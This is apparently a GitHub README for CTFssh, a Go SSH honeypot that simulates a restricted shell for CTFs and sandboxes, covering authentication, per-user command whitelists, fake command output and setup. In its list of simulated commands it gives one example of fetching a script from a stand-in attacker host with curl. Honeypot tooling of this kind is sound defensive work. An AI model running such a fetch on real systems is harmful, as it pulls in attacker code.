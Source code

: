 # CTFssh – Minimal SSH Honeypot Shell

**CTFssh** is a lightweight and configurable SSH server written in Go, designed to simulate a restricted shell for honeypots, CTFs, and sandbox environments. It supports both password and public key authentication, user-based command whitelists, and realistic command emulation.

---

## ✨ Features

- 🔐 Auth via shadow-compatible password hashes or SSH public keys
- 🧑 Per-user permissions and command restrictions
- 📂 Simulates Linux commands using static text or fake executable scripts
- 🚫 No shell, tunneling, SCP, or real exec
- 🪓 Login rate limiting per user/IP
- 🧠 Honeypot-safe logging of commands and URLs

---

## 🛠️ How It Works

- Users are authenticated using `users.json`
- Each session launches a custom shell environment
- Only predefined commands are accepted per user
- Commands either:
  - Return static text (from `text/`)
  - Run safe scripts (from `command/`)
- Logs all commands, login attempts, and fake network usage


## 📁 Project Layout

```
├── main.go # Entrypoint 
├── users.go # Authentication logic 
├── commands.go # Command dispatch and execution 
├── hostkey.go # Host key loader/generator 
├── ratelimit.go # Login rate-limiting 
├── users.json # User definitions 
├── host_key # SSH server key 
├── command/ # Simulated executables (curl, ping, etc.) 
├── text/ # Static command output (ls, uname, etc.) 
├── help/ # Help messages per command 
├── work/ # Optional user work directory

```

## 🚀 Quick Start

### 🔧 Build

```bash
go build -o ctfssh
```
🔐 Host Key
Generate it on first run or with:
```bash
make hostkey
```
👤 Create users.json
Example:
```json
[
  {
    "username": "admin",
    "hash": "$6$somesalt$...",
    "admin": true,
    "restrict": "",
    "allowed": ["help", "exit", "ls", "cat", "curl", "wget"],
    "prompt": "$ ",
    "banner": "Welcome to your secure fake shell"
  }
]
```

Generate hashes:
```bash
python3 -c 'import crypt; print(crypt.crypt("admin", crypt.mksalt(crypt.METHOD_SHA512)))'
```

▶️ Run the Server
```bash
./ctfssh --port 2222 --hostkey host_key --users users.json --banner "SSH-2.0-CTFssh"
```

🧪 Simulated Commands

cat /proc/cpuinfo
curl https://attacker.com/file.sh
ping 8.8.8.8
w, last, uname, uptime, ls, id

🔒 Security & Safety

All commands are isolated and non-destructive
Inputs are parsed and sanitized
No shell or command chaining allowed
Rate limiting blocks bruteforce attempts
Can safely be run on port 22 using setcap or iptables redirect



Flag	Description
--port	Port to listen on
--hostkey	Path to SSH private key
--users	Path to user config JSON
--banner	SSH version banner string

📦 Example Commands in command/

cat → fake /proc and /etc reads
curl, wget → logs URLs and mimics download
ping → fake ICMP responses
w, last → fake session reports

📤 Deployment

Use make build or:
```bash
go build -o ctfssh main.go users.go commands.go hostkey.go ratelimit.go
```

Use authbind, iptables, or setcap to bind to port 22 as non-root.
🛡️ License

MIT


